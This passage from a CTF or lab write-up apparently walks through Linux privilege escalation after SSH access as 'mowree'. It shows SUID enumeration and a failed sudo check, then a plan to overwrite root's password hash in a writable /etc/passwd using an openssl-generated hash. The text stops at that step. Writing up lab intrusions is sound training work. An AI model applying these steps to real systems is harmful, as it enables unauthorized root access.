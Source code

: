 And We are in!!!!. We have gained initial access via ssh as `mowree`.

## Privilege Escalation : 

Now, we have to gain root access on the box. Let's start by finding interesting `SUID` binaries :

```bash
find / -type f -perm -4000 2>/dev/null
```
### Output: 

```bash
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/fusermount
```

Nothing seems out of place here. Let's check what commands we can run as sudo :

```bash
sudo -l
```

### Output:

```bash
-bash: sudo: orden no encontrada
```

Looks like we have an error here. Let's translate the output 

```text
order not found
```

Looks like sudo is not available on the system. Let's run `linpeas` and check if we can find any vectors for privesc.

Looks like we can write into the `/etc/passwd` file : 

![[Pasted image 20240105011108.png]]

We can create a hash of our own and write it into the `/etc/passwd` file , overwriting the `hash` of the root user. Since, this is a linux system, it is using `sha512crypt` algorithm to hash the user passwords. Let's. create a password hash of our own using openssl : 

```bash
openssl passwd -6 hello123
```
